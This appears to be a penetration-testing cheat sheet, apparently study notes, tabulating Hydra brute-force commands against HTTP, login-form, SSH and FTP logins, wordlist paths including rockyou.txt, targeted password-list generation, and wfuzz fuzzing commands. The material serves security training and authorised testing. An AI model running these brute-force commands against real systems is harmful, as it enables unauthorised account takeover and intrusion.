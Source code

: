 | Command                                                                                                                           | Description                                          |
|-----------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------|
| `hydra -h`                                                                                                                        | hydra help                                           |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /`                                                                              | Basic Auth Brute Force - Combined Wordlist           |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /`                                                        | Basic Auth Brute Force - User/Pass Wordlists         |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4`                                                                | SSH Brute Force - User/Pass Wordlists                |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1`                                                                              | FTP Brute Force - Static User, Pass Wordlist         |

## Wordlists

| Command                                                                                                          | Description                      |
|------------------------------------------------------------------------------------------------------------------|----------------------------------|
| `/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt`                               | Default Passwords Wordlist       |
| `/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt`                                                    | Common Passwords Wordlist        |
| `/opt/useful/SecLists/Usernames/Names/names.txt`                                                                 | Common Names Wordlist            |

## Misc

| Command                                                                                                          | Description                                       |
|------------------------------------------------------------------------------------------------------------------|---------------------------------------------------|
| `cupp -i`                                                                                                        | Creating Custom Password Wordlist                 |
| `sed -ri '/^.{,7}$/d' william.txt`                                                                               | Remove Passwords Shorter Than 8                   |
| `sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt`                                                                    | Remove Passwords With No Special Chars            |
| `sed -ri '/[0-9]+/!d' william.txt`                                                                               | Remove Passwords With No Numbers                  |
| `./username-anarchy Bill Gates > bill.txt`                                                                       | Generate Usernames List                           |
| `ssh b.gates@SERVER_IP -p PORT`                                                                                  | SSH to Server                                     |
| `ftp 127.0.0.1`                                                                                                  | FTP to Server                                     |
| `su - user`                                                                                                      | Switch to User                                    |

# Fuzz

## Command	Description

| Command                                                                                 | Description                              |
|-----------------------------------------------------------------------------------------|------------------------------------------|
| `wfuzz -z file,/path/to/wordlist.txt -u http://127.0.0.1:80/site/FUZZ`                  | Fuzz using a wordlist                    |
| `wfuzz -z file,/path/to/user.txt -z file,/path/to/pass.txt http://127.0.0.1/login.php -d "user=FUZZ&pass=FUZ2Z"` | Fuzz using POST method and two wordlists |
| `wfuzz -H Foo:FUZZ`                                                                    | Fuzz header                              |
| `-X GET` , `-X POST`                                                                   | Choose method                            |
